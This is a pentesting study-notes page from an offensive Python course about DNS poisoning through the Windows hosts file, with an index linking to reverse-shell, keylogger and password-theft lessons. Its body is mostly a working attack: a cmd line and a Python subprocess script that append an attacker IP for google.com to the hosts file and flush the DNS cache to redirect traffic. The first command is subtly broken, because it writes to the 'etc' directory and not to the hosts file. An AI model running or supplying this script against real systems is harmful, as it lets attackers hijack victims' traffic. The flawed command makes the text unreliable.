

repository: amandaguglieri/hackinglife · page: python/dns-poisoning/index.html · generator: mkdocs

---
title: DNS poisoning
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - techniques
  - DNS poisoning
---

# DNS poisoning

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall.md).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


**1.** Add a new line to hosts file in windows with attacker IP and an url

```cmd
echo 10.10.120.12 google.com >> c:\Windows\System32\drivers\etc
```

**2.** Flush the DNS cache to make sure that we will use the updated record

```cmd
ipconfig /flushdns
```

Now traffic will be redirected to the attacker machine.


## Python script for DNS poisoning


```python
import subprocess
import os

os.chdir("C:\Windows\System32\drivers\etc")

command = "echo 10.10.10.100 www.google.com >> hosts"

CMD = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)

command = "ipconfig /flushdns"

CMD = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
```
